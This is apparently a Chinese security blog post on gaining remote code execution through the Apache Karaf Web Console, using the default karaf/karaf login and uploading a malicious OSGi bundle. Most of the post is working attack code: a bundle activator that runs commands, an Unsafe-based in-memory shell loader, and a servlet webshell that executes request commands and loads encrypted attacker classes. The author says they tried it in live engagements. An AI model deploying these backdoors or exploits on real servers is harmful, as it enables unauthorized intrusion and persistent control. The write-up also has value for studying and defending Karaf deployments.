# 实战遇到的 Apache Karaf Web Console 后台 RCE-先知社区

> **来源**: https://xz.aliyun.com/news/18891  
> **文章ID**: 18891

---

Apache Karaf 是基于 OSGi 的运行时容器，用于部署和管理捆绑包。Apache Karaf 还提供原生操作系统集成，并可作为服务集成到操作系统中，以便生命周期绑定到操作系统。

​

日常扫描的时候扫到了这样一个漏洞

是一个默认账号密码，可以进入后台，索性研究一下如何RCE吧

## 安装

去官方下载即可：<https://karaf.apache.org/download.html>，我这里下载的是：<https://archive.apache.org/dist/karaf/4.0.4/apache-karaf-4.0.4.zip>

更换 Maven 镜像源：  
编辑`{KARAF_HOME}/etc/org.ops4j.pax.url.mvn.cfg`，在`org.ops4j.pax.url.mvn.repositories`中添加国内镜像

```
org.ops4j.pax.url.mvn.repositories=\
    https://maven.aliyun.com/repository/public@id=alibaba,\
    https://repo1.maven.org/maven2@id=central
```

运行`bin/karaf.bat`启动，添加 Karaf 官方仓库

```
feature:repo-add mvn:org.apache.karaf.features/standard/4.0.4/xml/features
feature:install http
feature:install webconsole
```



安装成功后webconsole的默认端口为8181，访问[http://x.x.x.x:8181/system/console/](http://x.x.x.x:8181/system/console/`)

默认账号密码为`karaf/karaf`

## 后台 OSGi bundle install RCE

这是一个全版本的后台RCE，在后台存在功能`Upload / Install Bundles`



这里可以安装自定义的bundle

看到`org.apache.karaf.bundle.command.Install`  


如果start为真，则会触发BundleActivator的start()方法  
参考：<https://github.com/moghaddam/developmentor>，我们可以构造一个恶意的jar包

```
package com.blogspot.developmentor;

import org.osgi.framework.BundleActivator;
import org.osgi.framework.BundleContext;

public class Activator implements BundleActivator {

    public void start(BundleContext context) {
        try {
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"bash", "-c", "open -a Calculator"} : new String[]{"cmd.exe", "/c", "calc"};
            Runtime.getRuntime().exec(cmds);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public void stop(BundleContext context) {
        System.out.println("Goodbye World!");
    }

}
```

`maven install`打包上传  


成功RCE

### Jetty内存马

根据 报错/Header头 可以知道中间件为Jetty(9.2.14.v20151106)

直接上jmg！，使用Unsafe加载内存马

```
package com.blogspot.developmentor;

import org.osgi.framework.BundleActivator;
import org.osgi.framework.BundleContext;
import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.util.Base64;

public class Activator implements BundleActivator {

    public void start(BundleContext context) {
        try {
            Unsafe unsafe = getUnsafe();
            byte[] code = Base64.getDecoder().decode("xxxxxx");
            unsafe.defineClass(null,code,0,code.length,null,null).newInstance();
            unsafe.defineAnonymousClass(Class.class,code,null).newInstance();
        }
        catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public void stop(BundleContext context) {}
    
    public static Unsafe getUnsafe() {
        Unsafe unsafe;
        try {
            Field field = Unsafe.class.getDeclaredField("theUnsafe");
            field.setAccessible(true);
            unsafe = (Unsafe) field.get(null);
        } catch (Exception e) {
            throw new AssertionError(e);
        }
        return unsafe;
    }

}
```

这里可能是我的环境问题，使用冰蝎和哥斯拉会报错：

```
java.lang.NoClassDefFoundError: javax/crypto/Cipher
```

生成一个蚁剑的



注意连接的时候需要加上认证的header头：`Authorization: Basic a2FyYWY6a2FyYWY=`  


成功连接

​

但是实战中内存马怎么都打不上！！！，回显又十分麻烦，需要不断stop->start，不方便使用

有没有别的更加通用的方法呢？

### OSGi API注册Servlet



在Http中可以看到一些Servlet，参考官方代码：<https://github.com/apache/karaf/blob/karaf-4.0.x/http/src/main/java/org/apache/karaf/http/core/internal/osgi/Activator.java>，我们可以注册自己的ServletService

依靠deepseek的帮助，给出了具体代码：

```
package com.blogspot.developmentor;

import org.osgi.framework.BundleActivator;
import org.osgi.framework.BundleContext;
import org.osgi.framework.ServiceReference;
import org.osgi.framework.ServiceRegistration;
import org.osgi.service.http.HttpService;
import org.osgi.service.http.NamespaceException;
import org.osgi.util.tracker.ServiceTracker;
import org.osgi.util.tracker.ServiceTrackerCustomizer;

import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;

public class Activator implements BundleActivator {

    private ServiceTracker httpServiceTracker;
    private ServiceRegistration servletRegistration;

    @Override
    public void start(BundleContext context) throws Exception {
        // 创建ServiceTracker来跟踪HttpService
        httpServiceTracker = new ServiceTracker(
                context,
                HttpService.class.getName(),
                new HttpServiceCustomizer(context)
        );
        httpServiceTracker.open();
    }

    @Override
    public void stop(BundleContext context) throws Exception {
        // 注销服务跟踪器
        if (httpServiceTracker != null) {
            httpServiceTracker.close();
            httpServiceTracker = null;
        }

        // 注销Servlet
        if (servletRegistration != null) {
            servletRegistration.unregister();
            servletRegistration = null;
        }
    }

    // ServiceTracker自定义处理器
    private class HttpServiceCustomizer implements ServiceTrackerCustomizer {
        private final BundleContext context;

        public HttpServiceCustomizer(BundleContext context) {
            this.context = context;
        }

        @Override
        public Object addingService(ServiceReference reference) {
            HttpService httpService = (HttpService) context.getService(reference);
            if (httpService != null) {
                try {
                    // 注册Servlet
                    httpService.registerServlet("/hello", new HelloServlet(), null, null);
                    System.out.println("Servlet registered at /hello");

                    // 同时注册为服务（可选）
                    servletRegistration = context.registerService(
                            HttpServlet.class.getName(),
                            new HelloServlet(),
                            null
                    );
                } catch (ServletException | NamespaceException e) {
                    System.err.println("Error registering servlet: " + e.getMessage());
                }
            }
            return httpService;
        }

        @Override
        public void modifiedService(ServiceReference reference, Object service) {
            // 不需要处理
        }

        @Override
        public void removedService(ServiceReference reference, Object service) {
            HttpService httpService = (HttpService) service;
            try {
                // 注销Servlet
                httpService.unregister("/hello");
                System.out.println("Servlet unregistered");
            } catch (IllegalArgumentException e) {
                // 忽略未注册的情况
            }
            context.ungetService(reference);
        }
    }
}
```

HelloServlet则实现了内存马的逻辑：

```
package com.blogspot.developmentor;

import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Scanner;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;

public class HelloServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        resp.setContentType("text/plain");
        resp.setCharacterEncoding("UTF-8");
        resp.getWriter().println("Hello World");
    }
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            HttpSession session = request.getSession();
            response.setStatus(200);
            if(request.getHeader("x-client-data").equalsIgnoreCase("cmd")){
                if (request.getParameter("cmd") != null){
                    boolean isLinux = true;
                    String osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                        isLinux = false;
                    }
                    String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                    InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("\a");
                    String output = scanner.hasNext() ? scanner.next() : "";
                    response.getWriter().write(output);
                    response.getWriter().flush();
                }
            }
            else if (request.getHeader("x-client-data").equalsIgnoreCase("uyhasudg")) {
                HashMap pageContext = new HashMap();
                pageContext.put("request", request);
                pageContext.put("response", response);
                pageContext.put("session", session);
                String k = "e45e329feb5d925b";
                session.putValue("u", k);
                Cipher c = Cipher.getInstance("AES");
                c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
                Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                method.setAccessible(true);
                byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
                Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte, 0, evilclass_byte.length);
                evilclass.newInstance().equals(pageContext);
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```



注册成功后就会多出来一个Servlet



成功连接

> 最后实战也没用，webshell工具连不上，命令执行只能执行dir，哭哭  
> 看了下Karaf在最新版本注释掉账号密码了，需要删除掉注释才允许登录webconsole，也就杜绝了默认安装导致进行后台的可能性
